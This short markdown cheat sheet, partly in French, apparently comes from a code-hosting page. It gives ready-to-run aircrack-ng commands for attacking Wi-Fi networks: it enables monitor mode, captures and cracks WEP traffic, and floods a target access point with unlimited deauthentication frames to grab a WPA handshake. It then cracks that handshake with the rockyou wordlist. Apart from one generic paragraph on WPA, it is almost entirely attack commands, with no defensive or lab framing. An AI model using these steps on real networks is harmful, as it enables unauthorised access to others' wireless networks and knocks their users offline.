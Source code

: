 ### preparer notre interface réseau
```shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### WEP
```shell 
sudo airodump-ng wlan0 --encrypt WEP 
```
```shell
sudo besside-ng -b <BSSID> -c <CHANNEL> wlan0
```
```shell
aircrack-ng ./wep.cap
```

### WPA
Discover wifi networks with airodump-ng :
```shell 
airodump-ng -w dump2 -c <CHANNEL> --bssid <BSSID> wlan0
```
Deauthenticate all devices while still monitoring the networks, waiting for the handshake: 
```shell 
aireplay-ng --deauth 0 -a <BSSID>
```
Using wireshark we can view the packets containing the authentication information sent by the machine trying to reconnect to the wifi network, we now have to decrypt this data to capture the authentication key
For this we use a password dictionnary and aircrack-ng
```shell 
aircrack-ng dump-02.cap -w /usr/share/wordlists/rockyou.txt
```

	
	
Wi-Fi Protected Access (WPA) is a security standard for users of computing devices with wireless Internet connections. WPA was developed by the Wi-Fi Alliance to provide more sophisticated data encryption and better user authentication than Wired Equivalent Privacy (WEP), the Wi-Fi security original standard.